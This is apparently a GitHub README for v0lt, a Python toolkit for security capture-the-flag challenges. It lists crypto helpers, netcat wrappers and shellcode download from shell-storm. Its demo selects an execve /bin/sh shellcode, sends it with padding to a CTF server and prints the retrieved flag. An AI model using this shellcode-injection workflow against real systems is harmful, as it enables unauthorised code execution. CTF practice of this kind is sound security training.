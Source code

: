 ![v0lt](https://raw.githubusercontent.com/P1kachu/v0lt/master/v0lt/assets/v0lt.png)

v0lt
====

v0lt is an attempt to regroup every tool I used/use/will use in security CTF, Python style. 
A lot of exercises were solved using bash scripts but Python may be more flexible, that's why.    

##Requirements and Installation    
####Dependencies:   
* Python3    
  * BeautifulSoup    
  * Requests    

####Installation:   
```Bash
git clone https://github.com/P1kachu/v0lt.git     
cd v0lt    
sudo python3 setup.py install # sudo is required for potentially missing dependencies    
```

##Demo: Shellcodes
```Python
>>> from v0lt import shellcode
>>> from v0lt.netcat import Netcat
>>> nc = Netcat("remote.ctf.com", 4444)
Connected to port 4444
>>> print(nc.read(1))
GIVE ME SHELLCODZ
>>> shellhack = ShellHack(4096, "bin","execve")

.
.
.
85: Linux/x86:setuid(0) & execve(/sbin/poweroff -f) - 47 bytes
86: Linux/x86:execve (/bin/sh) - 21 Bytes
87: Linux/x86:break chroot execve /bin/sh - 80 bytes
88: Linux/x86:execve(/bin/sh,0,0) - 21 bytes
.
.
.

Selection: 86
You chosed http://shell-storm.org/shellcode/files/shellcode-752.php
Shellcode: "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62[...]"
>>> shell_code = shellhack.shellcode

>>> nc.shellcat(shell_code)
>>> nc.writeln(shellhack.pad())
>>> exploit = nc.dialogue("cat flag", 3)
>>> print(exploit)
File name too long
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAflag{EasyPe4syL3m0nSq33zy!!}
```
##Implemented:    
* Crypto    
    * Base64    
    * Ceasar shift    
    * Hashing functions (SHA, MD5)    
    * Bits manipulations (Xor)    
    * Usual conversions (bytes/strings/hex)    
    * RSA basics (inverse modulo, inverse power, egcd...)    

* Shellcodes    
    * Shellcode selection and download from Shell-storm repo    
    * Shellcode formater 
    * Shell{cat,net}: Sending shellcode made easy

* Easy connection support    
    * Netcat    
    * Telnet    

And more

